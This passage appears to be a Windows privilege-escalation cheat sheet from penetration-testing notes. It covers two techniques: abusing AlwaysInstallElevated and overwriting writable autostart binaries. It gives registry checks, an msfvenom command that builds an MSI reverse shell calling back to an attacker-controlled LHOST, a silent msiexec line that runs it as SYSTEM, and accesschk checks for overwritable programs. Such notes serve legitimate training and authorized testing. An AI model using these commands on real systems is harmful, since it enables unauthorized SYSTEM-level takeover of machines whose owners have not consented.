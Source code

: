 
## AlwaysInstallElevated

winPEAS should detect this. Verify manually with:

```default
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

It should exist and be set to 1. Then it is exploitable.

To exploit this we need to create an MSI installer reverse shell with msfvenom.

```default
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f msi -o reverse.msi
```

Just copy it over and execute it. You should receive a reverse shell as SYSTEM.

```default
msiexec /quiet /qn /i .\reverse.msi
```

## AutoStart Abuse

Look for registry entries for autostart:

* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
* KEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
* HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce


```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

    ...
    My Program  REG_SZ  "C:\Program Files\Autorun Program\program.exe"
```

Check the found binary path with: 

```powershell
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

If you get a result like:
```default
RW BUILTIN\Users

# or...

RW Everyone
```

Then you can overwrite it.

